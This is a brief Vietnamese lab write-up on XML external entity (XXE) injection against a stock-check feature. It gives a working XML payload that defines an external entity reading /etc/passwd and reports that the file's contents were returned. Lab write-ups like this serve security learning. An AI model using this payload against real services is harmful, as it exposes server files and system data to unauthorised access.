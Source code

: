 # 1. Exploiting XXE using external entities to retrieve files
Ta thấy chức năng stock check có body là một đoạn mã XML. Như vậy ta có thẻ exploit bằng cách chèn đoạn code sau vào body:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
Kết quả nội dung file /etc/passwd được in ra thành công
![image](https://user-images.githubusercontent.com/103978452/205596701-bb968712-24a2-4d79-94cd-6247202fb977.png)
